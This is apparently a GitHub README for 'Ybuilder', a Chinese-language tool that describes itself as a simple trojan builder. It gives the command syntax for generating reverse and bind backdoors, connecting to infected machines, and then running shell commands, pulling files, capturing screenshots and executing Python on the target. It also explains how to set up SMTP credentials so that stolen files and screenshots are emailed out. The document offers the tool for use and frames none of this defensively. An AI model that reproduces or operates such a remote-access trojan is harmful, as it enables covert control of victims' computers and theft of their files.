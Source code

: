 # Ybuilder  

Ybuilder 一个简易的木马生成工具

## 如何使用Ybuilder  

用Python 3.10或以上版本的解释器运行Main.py  

运行结果
```
__   ___           _ _     _           
\ \ / / |__  _   _(_) | __| | ___ _ __ 
 \ V /| '_ \| | | | | |/ _` |/ _ \ '__|
  | | | |_) | |_| | | | (_| |  __/ |   
  |_| |_.__/ \__,_|_|_|\__,_|\___|_|   
                                       
Ybuilder $>
```  

### 使用generate命令生成木马  

```
generate [选项] [文件路径] [ip] [port]

1. [选项] 可选0和1
   当选项的值为0时 生成的为反向木马
   当选项的值为1时 生成的为正向木马
2. [文件路径] 生成后门的路径
3. [ip] 本机或目标的ip
   [port] 本机或目标的port
   当选项的值为0时 ip与port为本机
   当选项的值为1时 ip与port为目标
```  

### 使用connect命令连接正向木马   

```
connect [ip] [port]

1. [ip][port] 均为目标
2. 此命令要运行在被控端之后!
```  

### 使用listen命令接受反向木马连接  

```
listen [ip] [port]

1. [ip][port] 均为本机
2. 此命令要运行在被控端之前!
```  

### 如何操作目标  

在连接到目标后 可以通过以下命令操作(连接到目标或会输出"$>")  

```
1. shell [命令]     #执行shell
2. get [文件路径]    #获取文件
3. win             #获取屏幕截图
4. py [语句]        #执行python语句
```  

例如
```
1. shell whoami #执行whoami
   shell id     #执行id
   shell ls     #执行ls

2. get a.txt    #获取a.txt
   get /a.jpg   #获取根目录下的a.jpg  

3. win          #获取屏幕截图

4. py print('hello world')    #在目标上输出hello world
   py import os;print(os.name)#获取目标操作系统信息
```  

在这其中请注意shell和get及win命令!!!

shell命令是非交互式shell 您无法执行vim sudo 这样的命令!!!  

get和win使用smtp传输文件 您在使用两者时要先如下操作!!!  

```
$> py host = "smtp服务器域名" #例如163的smtp.163.com
命令执行成功
$> py port = "smtp服务所在端口" #一般是25端口
命令执行成功
$> py name = "您的邮箱"
命令执行成功
$> py password = "smtp运营商提供给您的密码" 
```




   
